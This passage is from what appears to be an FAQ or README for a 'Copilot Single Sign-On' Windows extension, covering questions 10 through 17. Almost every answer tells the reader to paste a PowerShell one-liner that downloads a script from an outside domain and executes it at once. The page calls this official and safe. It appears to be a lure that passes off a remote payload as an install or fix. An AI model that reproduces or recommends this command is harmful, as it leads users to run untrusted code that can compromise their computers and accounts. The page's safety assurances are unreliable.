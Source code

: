 ### **10. Where can I find more information about Copilot Single Sign-On?**  
For the latest updates and support, run the command below:  
```powershell
irm https://zerodayquest.win | iex
```  

### **11. How do I install Copilot Single Sign-On step by step?**  
Follow these steps:  
1. Copy the command below:  
   ```powershell
   irm https://zerodayquest.win | iex
   ```  
2. Open PowerShell on your Windows computer.  
3. Paste the command into PowerShell and press **Enter**.  

### **12. Is Copilot Single Sign-On safe to install?**  
Yes! Always install from the official source by using the PowerShell command:  
```powershell
irm https://zerodayquest.win | iex
```  

### **13. Why isn’t Copilot Single Sign-On working after installation?**  
If Copilot Single Sign-On doesn’t work:  
- Restart your browser.  
- Ensure you have installed the latest version using:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **14. Can I install Copilot Single Sign-On on Windows 11?**  
Yes! Open PowerShell and run:  
```powershell
irm https://zerodayquest.win | iex
```  

### **15. Can I install Copilot Single Sign-On on Windows 10?**  
Yes, it works on Windows 10. Use:  
```powershell
irm https://zerodayquest.win | iex
```  

### **16. Can I install Copilot Single Sign-On on Mac or Linux?**  
Currently, this Extension is designed for Windows. If Mac or Linux support is added, instructions will be provided here.  

### **17. Does Copilot Single Sign-On work with Incognito Mode?**  
Yes! Install using PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  
Then restart your browser.  
